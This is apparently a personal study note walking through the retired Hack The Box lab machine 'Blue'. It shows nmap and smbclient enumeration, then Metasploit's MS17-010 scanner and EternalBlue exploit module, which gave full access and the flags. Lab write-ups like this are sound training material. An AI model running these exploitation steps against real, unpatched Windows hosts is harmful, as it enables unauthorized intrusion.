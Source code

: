 Type: #windows  
Level: #easy 
Link: <https://app.hackthebox.eu/machines/Blue>
Tags : #TCM 
Tools: [[NMAP]] [[]] [[]]	

## Pentesting of retired HTB VM Blue
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.40

First let's do a classic nmap scan  
`sudo nmap -A -T4 -p- 10.10.10.40`

NMAP Result : 
```
Nmap scan report for 10.10.10.40
Host is up (0.038s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/18%OT=135%CT=1%CU=35115%PV=Y%DS=2%DC=T%G=Y%TM=607C3D
OS:DE%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M
OS:54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m31s, deviation: 34m37s, median: 1m27s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-18T15:11:58+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-18T14:11:59
|_  start_date: 2021-04-18T13:47:27

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   38.15 ms 10.10.14.1
2   38.13 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.90 seconds
```

FIrst enumeration :

Open ports : `135 139 445`

So we're looking at a potential SMB vulnerability but since the OS is old we might end up using another W7 vuln like EternalBlue.

Let's run an SMB client to see if we can access something :

```
smbclient -N -L \\\\10.10.10.40\\    

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.40 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

ADMIN C and IPC are password restricted :

```
smbclient \\\\10.10.10.40\\ADMIN   
Enter WORKGROUP\root's password: 
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
```

Share and Users are accessible whiout password but does not seems to have any file of interest.

Using metasploit I got the SMB Version :

```
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.40
run
```

`10.10.10.40:445       - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:35m 52s) (guid:{0ca2099d-2d7f-4d2e-b604-b9503d0c10d8}) (authentication domain:HARIS-PC)
`

But exploiting SMB when EternalBlue is present is pointless so :
```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.40
exploit

```

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
exploit

```

From here I got full access to the VM and I just got the flags in C:/Administrator/Desktop/root.txt and C:/haris/Desktop/user.txt

#pwned 